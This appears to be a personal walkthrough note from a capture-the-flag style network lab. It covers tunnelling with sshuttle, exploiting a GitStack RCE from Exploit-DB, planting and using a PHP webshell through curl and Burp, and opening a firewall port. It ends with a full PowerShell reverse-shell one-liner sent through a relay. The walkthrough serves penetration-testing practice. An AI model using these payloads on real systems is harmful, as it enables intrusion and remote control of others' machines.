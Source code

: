 
See [[03 - enumeration 02]]

---

We can use sshuttle to create a tunnel to our next target @ **10.200.84.150:80**

`sshuttle -r root@10.200.84.200 --ssh-cmd "ssh -i id_rsa" 10.200.84.0/24`

We can now access http://10.200.84.150

This page reveals that it is running **gitstack**

___

We search in exploit db for gitstack and find the following RCE:

https://www.exploit-db.com/exploits/43777

We can copy this exploit to our machine
`searchsploit -m 43777`

**A common issue with exploit db scripts are the line endings. They need to be converted to unix line endings**

`dos2unix ./43777.py`

---

You can edit the **command** field in the script to send a reverse shell. But if we look closer at the last 6 lines of code...

We see it creates a PHP webshell 
```php
<?php system($_POST['a']); ?>
```

and echos it into a file called **exploit.php** under the webroot.
This can be access by posting a command to the newly created /web/exploit.php file

We can exploit this via cURL:

`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

Or through burpsuite by using repeater. Here is an example:

```post
POST /web/exploit-k.php HTTP/1.1
Host: gitserver.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=8fIXpM3hjzaS9K5qdiztvTjrY2CW2DFA; sessionid=7c7f16ab0abe63010d960ed76f54b6e8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

a=whoami
```

Let's try to ping to our machine to see if we can send outbound traffic

Set up  tcpdump on our box
`tcpdump -i tun0 icmp`
Try to ping it from the box
`ping -n 3 ATTACKING_IP`

Nothing gets sent. Now we have two options.

-   Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
-   We could set up a relay on .200 to forward a shell back to a listener

---

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

---

Now we set up our reverse shell relay

[[Reverse Shell Relay]]

We then send this to the a= command in burpsuite. Replacing IP with 10.200.84.200 and PORT with the port we opened on .200

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


Proceed to [[Foothold 02]]
